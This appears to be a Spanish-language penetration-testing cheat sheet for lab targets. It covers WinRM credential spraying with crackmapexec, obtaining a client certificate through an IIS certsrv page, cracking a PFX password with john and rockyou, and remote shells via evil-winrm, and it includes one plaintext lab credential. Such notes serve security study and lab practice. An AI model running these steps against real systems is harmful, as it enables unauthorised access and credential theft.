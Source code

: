 

### ENUMERAR USUARIO
```shell
❯ crackmapexec winrm 10.10.10.203 -u 'users' -p 'passwords'
```


### PROBAR CREDENCIALES PARALELAS
```shell
❯ crackmapexec winrm 10.10.10.203 -u users.txt -p passwords.txt --no-bruteforce
```


## CONECTARSE POR SSL
### CLAVES .KEY
```shell
#CREACIÓN DE LAS CLAVES.
❯ openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr

#INTRODUCIR CLAVES POR IIS
	/certsrv/ -> Advance req // certsrv/certrqxt.asp -> (cat amanda.csr | xclip -sel clip) -> Paste on firts section text -> SUBMIT -> DOWNLOAD CERTIFICATE

#CONECTARSE
❯ evil-winrm -S -c certnew.cer -k amanda.key -i 10.10.10.103 -u 'amanda' -p 'Ashare1972'
```

### PKCS#12
```shell
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes 

#SI NOS DA CONTRASEÑA INVALIDA
pfx2john legacyy_dev_auth.pfx > pfx.john 
john pfx.john -wordlist:/usr/share/wordlists/rockyou.txt
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem

evil-winrm -i 10.10.11.152 -c cert.pem -k key.pem -S
```

### CONEXIÓN CON CREDENCIALES
```shell
evil-winrm -i 10.10.11.152 -u 'Administrator' -S
```
